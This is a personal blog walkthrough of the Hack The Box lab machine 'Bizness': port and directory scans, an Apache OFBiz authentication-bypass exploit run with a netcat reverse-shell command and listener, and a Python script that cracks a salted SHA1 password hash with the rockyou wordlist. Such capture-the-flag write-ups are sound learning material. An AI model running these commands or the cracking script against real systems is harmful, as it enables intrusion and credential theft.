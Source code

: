 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# Bizness - My First HTB machine

My first HTB Machine and how I solved it

Released: 2024-02-11


## Starting up 🚀

I started by installing my OpenVPN files from HTB and running ```sudo openvpn /Users/vipin/Downloads/lab_qvipin.ovpn``` to connect. From there you should be ready to start your machine...

## Scanning for ports

- We start with a NMAP scan, a typical first step.

```bash

❯ sudo nmap -sV 10.10.11.252
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 10:14 EST
Nmap scan report for 10.10.11.252
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

- With this port scan we now know that 22, 80, and 443 is open.
> Port 22 - SSH

> Port 80 - HTTP

> Port 443 - HTTPS

## Accessing the website

- Entering the IP into our browser will give us a *ERR_CONNECTION_TIMED_OUT* error. To fix this run ```echo "TARGET_IP domain.htb" | sudo tee -a /etc/hosts``` and replacing the **TARGET_IP** with your machine's IP and **domain.htb** with the domain the IP redirects to.

## Finding Vulnerabilities

- The website looks perfectly normal from the frontend.

![Image showing the main page of bizness.htb](blog/biznesspics/biznesspage1.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1 *Homepage*</small>
</div>

- At the bottom of the page it says it is made with **Apache OFBiz**

![Image showing apache ofbiz](blog/biznesspics/ApacheOFBIZ1.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2</small>
</div>

- Searching for vulnerabilities associated with **Apache OFBiz** we find [this Github repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

## Directory Scanning

- My preferred tool for directory scanning is ***Dirsearch***

```bash
❯ dirsearch -u https://bizness.htb/ --exclude-status 404

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/https_bizness.htb/__24-02-09_23-38-26.txt

Target: https://bizness.htb/

[23:38:26] Starting:
[23:38:30] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[23:38:31] 400 -  795B  - /a%5c.aspx
[23:38:31] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[23:38:42] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[23:38:43] 302 -    0B  - /common  ->  https://bizness.htb/common/
[23:38:44] 302 -    0B  - /content  ->  https://bizness.htb/content/
[23:38:44] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[23:38:44] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[23:38:44] 200 -   34KB - /control/
[23:38:44] 200 -   34KB - /control
[23:38:44] 200 -   11KB - /control/login
[23:38:46] 302 -    0B  - /error  ->  https://bizness.htb/error/
[23:38:46] 302 -    0B  - /example  ->  https://bizness.htb/example/
[23:38:48] 302 -    0B  - /images  ->  https://bizness.htb/images/
[23:38:49] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
[23:38:59] 200 -   21B  - /solr/admin/
[23:38:59] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[23:38:59] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/

Task Completed
```

## Getting the User flag

- In `/accounting` we find a login page, but with some poking and prodding it seems like a dead end.

![Image showing the login page of bizness.htb](blog/biznesspics/loginbizness1.png 'Fig.3')
<div style={{ textAlign: 'center' }}>
  <small>Fig.3 */accounting*</small>
</div>


- I am going to use the [PoC repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) we found in the beginning...

```bash
└─$ python3 exploit.py --url https://bizness.htb --cmd "nc 10.10.14.35 6969 -e /bin/bash"
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.


### On another tab I am listening on port 6969

└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.252] 59388

``` 

- And now we have user access in the machine!

![Image showing the user flag](blog/biznesspics/userflag1.png 'Fig.4')
<div style={{ textAlign: 'center' }}>
  <small>Fig.4</small>
</div>

## Getting the Root flag

- This was a tricky process as I didn't know what to look for and I was pretty plateaued. 

- Just when I was about to give up, I started searching for hashes and in *c54d0.dat*, I found a password hash!!!

![Image showing the password](blog/biznesspics/rootpassword1.png 'Fig.5')
<div style={{ textAlign: 'center' }}>
  <small>Fig.5 *Odd Password Hash*</small>
</div>

- Using the Python script I found online (Below), I acquired the root password.

```python

import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
       
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):

        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/Users/vipin/tech/CTFs/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)

total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  

```

![Image showing the cracked password](blog/biznesspics/crackedpassword1.png 'Fig.6')
<div style={{ textAlign: 'center' }}>
  <small>Fig.6 *Password Successfully Cracked!*</small>
</div>


- And Voilà!!!

![Image showing that i pwned it](blog/biznesspics/biznesspwned.png 'Fig.7')
<div style={{ textAlign: 'center' }}>
  <small>Fig.7 *Machine Pwned*</small>
</div>